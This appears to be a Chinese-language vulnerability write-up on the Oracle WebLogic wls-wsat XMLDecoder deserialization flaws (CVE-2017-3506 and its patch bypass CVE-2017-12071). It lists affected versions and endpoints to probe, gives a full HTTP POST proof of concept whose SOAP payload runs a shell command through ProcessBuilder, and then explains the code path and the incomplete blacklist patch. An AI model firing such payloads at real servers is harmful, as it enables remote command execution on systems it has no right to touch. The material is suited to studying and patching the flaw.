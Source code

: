 # CVE-2017-3506&CVE-2017-12071 反序列化
影响版本
```
10.3.6.0
12.1.3.0
12.2.1.0
12.2.1.1
12.2.1.2
```
访问以下url,可访问即开启了相关漏洞组件
```
/wls-wsat/CoordinatorPortType
/wls-wsat/RegistrationPortTypeRPC
/wls-wsat/ParticipantPortType
/wls-wsat/RegistrationRequesterPortType
/wls-wsat/CoordinatorPortType11
/wls-wsat/RegistrationPortTypeRPC11
/wls-wsat/ParticipantPortType11
/wls-wsat/RegistrationRequesterPortType11
```
## POC
```
POST /wls-wsat/CoordinatorPortType11 HTTP/1.1
Host: 127.0.0.:7001
sec-ch-ua: " Not A;Brand";v="99", "Chromium";v="92"
sec-ch-ua-mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.131 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: text/xml
Content-Length: 764

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">  
  <soapenv:Header> 
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">  
      <java> 
        <void class="java.lang.ProcessBuilder"> 
          <array class="java.lang.String" length="3"> 
            <void index="0"> 
              <string>/bin/sh</string> 
            </void>  
            <void index="1"> 
              <string>-c</string> 
            </void>  
            <void index="2"> 
              <string>whoami>/tmp/log</string>
            </void> 
          </array>  
          <void method="start"/> 
        </void> 
      </java> 
    </work:WorkContext> 
  </soapenv:Header>  
  <soapenv:Body/> 
</soapenv:Envelope>
```
## 原理
首先在`weblogic/wsee/jaxws/workcontext/WorkContextServerTube.class.processRequest`方法中开始处理相关xml请求.
首先分切xml数据的haeader交给readHeaderOld方法.
![](1.png)
在readHeaderOld方法中,var4通过XMLStreamWriteFactory.create和var3的bridge()方法被填充为poc部分即
```xml
<java> 
        <void class="java.lang.ProcessBuilder"> 
          <array class="java.lang.String" length="3"> 
            <void index="0"> 
              <string>/bin/sh</string> 
            </void>  
            <void index="1"> 
              <string>-c</string> 
            </void>  
            <void index="2"> 
              <string>whoami>/tmp/log</string>
            </void> 
          </array>  
          <void method="start"/> 
        </void> 
      </java> 
```
然后将这部分作为参数实例化了一个WorkContextXmlInputAdapter.
![](2.png)  
而在WorkContextXmlInputAdapter实例化中则直接调用了xmlDecoder来反序列化数据.触发xmlDecoder反序列化漏洞.
![](3.png)
## 总结
其原因在于WLS-WebServices这个组件中使用了XMLDecoder来直接解析XML数据,触发了XMLDecoder反序列化漏洞.CVE-2017-12071为CVE-2017-3506补丁的绕过,CVE-2017-3506的补丁只是把object标签对象加了黑名单,而在xmldecoder中还有可替代的标签进行替换即可,而在CVE-2017-12071中则是把xmldecoder中可实例化对象的标签都进行了过滤.